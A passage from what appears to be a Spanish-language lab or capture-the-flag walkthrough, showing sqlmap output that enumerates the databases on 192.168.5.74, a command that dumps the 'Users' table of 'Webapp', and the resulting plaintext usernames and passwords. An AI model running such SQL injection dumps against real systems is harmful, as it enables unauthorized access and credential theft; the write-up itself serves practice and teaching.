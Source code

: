 ```
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] Webapp

[03:39:50] [INFO] fetching tables for database: 'Webapp'
[03:39:50] [INFO] fetching number of tables for database 'Webapp'
[03:39:50] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                              
[03:39:50] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
1
[03:39:55] [INFO] retrieved: 
[03:40:05] [INFO] adjusting time delay to 1 second due to good response times
Users
Database: Webapp
[1 table]
+-------+
| Users |
+-------+

[03:40:18] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.5.74'
[03:40:18] [WARNING] your sqlmap version is outdated

[*] ending @ 03:40:18 /2025-08-10/
```

Veremos una tabla llamada `Users` bastante interesante, por lo que vamos a ver que contiene dentro de la propia tabla directamente con el siguiente comando:

```shell
sqlmap -r request.txt --dbs --batch -D Webapp -T Users --threads 10 --dump
```

Info:

```
Database: Webapp
Table: Users
[4 entries]
+----------+--------------+
| username | password     |
+----------+--------------+
| bart     | b4rtp0w4     |
| liam     | liam@nd3rs0n |
| mike     | mikeblabla   |
| peter    | peter123!    |
+----------+--------------+
```
